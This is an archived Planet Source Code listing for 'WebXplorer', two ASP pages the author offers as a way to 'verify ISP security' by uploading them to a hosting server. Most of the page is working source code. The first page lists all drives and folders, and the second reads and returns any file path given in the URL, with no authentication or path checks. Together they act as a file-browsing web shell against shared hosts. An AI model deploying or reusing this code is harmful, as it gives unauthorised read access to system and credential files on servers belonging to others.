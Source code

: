 ﻿<div align="center">

## Hack\.\.\. er, uh\.\.\. verify ISP/website security


</div>

### Description

My purpose for this was educational. I was trying to learn the Scripting.FileSystemObjects which were not documented well at the time. You can use it for educational purposes, or to test the security and see how well your server's NT user permissions are locked down (for instance, if your anonymous user can browse and download files from your WinNt directory (which is usually the case!), your permissions are probably not quite up to snuff)
 
### More Info
 
This code (2 pages) is essentially and "explorer" of your ISPs hard drive through ASP. I even did some nifty little icons that you can download here:

'http://liquidmirror.com/OFolder.gif

'http://liquidmirror.com/CFolder.gif

'http://liquidmirror.com/File.gif

' The included screen capture is a shot of an 'unknown' ISPs WinNT directory... the files on the right can be clicked to view their contents, but this feature is very rudimentary and could use some work (i.e., binary streaming)

Remember that there are two files in the code, WebXplorer.asp and WebXplorer2.asp. Have fun! And vote for me!!! I want the Rio!! ;-)

There is a distinct possibility that your ISP may ban you if you upload these and they find out. I almost lost my site because I reported my findings to the adimnistrator, and showed him my page. He thought that I was intentionally trying to hack the site... just be careful with it.


<span>             |<span>
---                |---
**Submitted On**   |
**By**             |[Mike Stevenson](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByAuthor/mike-stevenson.md)
**Level**          |Intermediate
**User Rating**    |4.9 (97 globes from 20 users)
**Compatibility**  |ASP \(Active Server Pages\)
**Category**       |[Internet/ Browsers/ HTML](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByCategory/internet-browsers-html__4-9.md)
**World**          |[ASP / VbScript](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByWorld/asp-vbscript.md)
**Archive File**   |[](https://github.com/Planet-Source-Code/mike-stevenson-hack-er-uh-verify-isp-website-security__4-6121/archive/master.zip)

### API Declarations

```
' I make no claims to this code and
' assume no liability. Do what you
' want with it, just be sure to
' leave me out of it ;-D
```


### Source Code

```
'File1 (WebXplorer.asp)
<%@ LANGUAGE="VBSCRIPT" %>
<HTML>
<HEAD>
	<TITLE>Security Check</TITLE>
</HEAD>
<BODY BGCOLOR="#FFFFFF">
<CENTER><P ALIGN="CENTER">
<TABLE WIDTH="100%" BORDER="0">
<TR><TD ALIGN="LEFT">
<FORM ACTION="Webxplorer.asp" METHOD="GET">
<%
	'Increase the script timeout in case we get a large directory
	Server.ScriptTimeout = 3000
	'Set up the FileSystem objects
	Set fsDrive = CreateObject("Scripting.FileSystemObject")
	Set drvHack = fsDrive.Drives
	'Let's write out drives in a dropdown list bos
	For Each drvType In drvHack
		strDrives = strDrives & "<OPTION VALUE=""" & drvType & """>" & drvType & "</OPTION>"
		x = x + 1
	Next 'drvType
	'The submit button of this form will submit a
	'new Drive path back to this page for parsing
%>
<SELECT NAME="strPath" WIDTH="20">
	<%= strDrives %>
</SELECT>
<INPUT TYPE="SUBMIT" NAME="SUBMIT" VALUE="Change Drive">
</FORM>
</TD></TR>
</TABLE>
	<TABLE WIDTH="100%" BORDER="1" CELLSPACING="2" CELLPADDING="1">
		<TR>
<%
		'Retrieve the requested path (local) from the url
		strDir = Request("strPath")
		if strDir = "" Then strDir = Server.MapPath("/")
		strParse = strDir
		'Make sure that there is a trailing "\" on the path (directory)
		If Right(strParse, 1) <> "\" Then strParse = strParse & "\"
		'Path starts out as something like: "c:\winnt\system32\cache"
		'What we have to do is loop through the string and parse out each chunk
		'at the backslashes "\". Each time we loop, we remove the "\"s and
		'prepend a couple of spaces to the beginning of the string to simulate
		'the indented "sub directory" look. Then we write it out with eithere
		'an opened or closed folder. Here we go....
		'Find out where the first "\" is
		lngPos = InStr(1, strParse, "\")
		'Write out a link to submit this new path back to this page if the user clicks this folder
		strOut = "<A HREF=""WebXplorer.asp?strPath=" & Mid(strParse, 1, lngPos) & """><IMG SRC=""OFolder.gif"" BORDER=""0"">" & Left(strParse, lngPos) & "</A><BR>"
		'Loop thru all of the rest of the sub-directories ("\")
		x = 2
		Do While lngPos <> 0
			oldPos = lngPos
			lngPos = InStr(oldPos + 1, strParse, "\")
			if lngPos = 0 Then Exit Do
			'Use spaces to simulate indentation of sub-dirs
			For y = 1 to x
				strIndent = strIndent & "&nbsp;"
			Next 'y
			strOut = strOut & strIndent & "<A HREF=""WebXplorer.asp?strPath=" & Mid(strParse, 1, lngPos) & """><IMG SRC=""OFolder.gif"" BORDER=""0"">" & Mid(strParse, oldPos + 1, lngPos - (oldPos + 1)) & "</A><BR>"
			'Jump up the nubmer of spaced (indenting)
			x = x + 2
			'Are we at the end? Exit if we are
			if lngPos = Len(strParse) Then Exit Do
		Loop
		'Here we start the left hand side of our "Explorer" view
		Response.Write("<TD width=""50%"" VALIGN=""TOP"">")
		'Write out our monolithic string of folders
		Response.Write(strOut)
		strIndent = strIndent & "&nbsp;&nbsp;"
		'Now we need to get the subdirectories of the _current_ folder ...
		'Get all the required FileSystemObjects set up. Pass in strDir
		Set objFSObject = CreateObject("Scripting.FileSystemObject")
		Set objFolder = objFSObject.GetFolder(strDir)
		'Get the subfolders
		Set colFolders = objFolder.SubFolders
		'Now we loop through all of the subdirectories
		'and write the names/hyperlinks to the html
		For Each intFol in colFolders
			strFName = intFol.name
			Response.Write(strIndent & "<A HREF=""WebXplorer.asp?strPath=" & intFol.Path & """><IMG SRC=""CFolder.gif"" BORDER=""0""> " & strFName &"</a><br>" & vbcrlf)
		Next 'intFol
		Response.Write("</TD>")
		'Ok, now... On to the files in this directory
		Response.Write("<TD width=""50%"" VALIGN=""TOP"">")
		'Same basic idea as the subfolders, but we handle a 'file click'
		'on a different page (WebXplorer2.asp), so make the link go there
		Set colFiles = objFolder.Files
		Response.Write("<TABLE BORDER=0 CELLPADDING=0 CELLSPACING=0>")
		'Loop through each file, construct the image, url, and name
		'and write them out to the html stream using Response.Write
		For Each intF1 in colFiles
			strFName = intF1.name
			response.write "<TR><TD WIDTH=""100%""><A HREF=""WebXplorer2.asp?strFile=" & strParse & strFName & """><IMG SRC=""File.gif"" BORDER=""0""> " & strFName &"</A></TD></TR>"
		Next 'intF1
		Response.Write("</TABLE>&nbsp;</TD>")
%>
		</TR>
	</TABLE>
</P></CENTER>
</BODY>
</HTML>
'File2 (WebXplorer2.asp):
<%@ LANGUAGE="VBSCRIPT" %>
<%
	On Error Resume Next
	'This page attempts to read files from the remote drive and stream
	'them to the browser (remember, it only _attempts_ ... it could use
	'some work. Feel free to get creative in here ;-D )
	'Get the proper objects... Request("strFile") is
	'the name of the file on disk
	Set FileObject = Server.CreateObject("Scripting.FileSystemObject")
	Set Out = FileObject.OpenTextFile (Request("strFile"), 1, FALSE, FALSE)
	If Err <> 0 Then
		'An error occurred. Let's just display it.
%>
<HTML>
<HEAD><TITLE>Security Check: ERROR</TITLE></HEAD>
<BODY>
	<%=Err.Description%>
</BODY>
</HTML>
<%
	Else
		'Otherwise, we're good. Let's read it into a string
		strContents = Out.ReadAll
		Out.Close
		'Write the contents out to the html stream
		Select Case Right(Request("strFile"), 3)
			Case "htm"
				Response.ContentType = "text/HTML"
				Response.Write(strContents)
			Case "asp"
				Response.ContentType = "text/plain"
				strContents = Server.HTMLEncode(strContents)
				strContents = Replace(strContents, vbcrlf, "<BR>")
				Response.Write("<HTML><HEAD></HEAD><BODY>" & strContents & "</BODY>")
			Case "gif"
				Response.ContentType = "image/gif"
				Response.Write(strContents)
			Case "jpg"
				Response.ContentType = "image/jpeg"
				Response.Write(strContents)
			Case "zip"
				Response.ContentType = "application/x-tar"
				Response.Write(strContents)
			Case Else
				Response.ContentType = "text/html"
				Response.Write(Replace(strContents, vbcrlf, "<BR>"))
		End Select
		'Flush the buffer
		'Response.End
	End If
%>
```

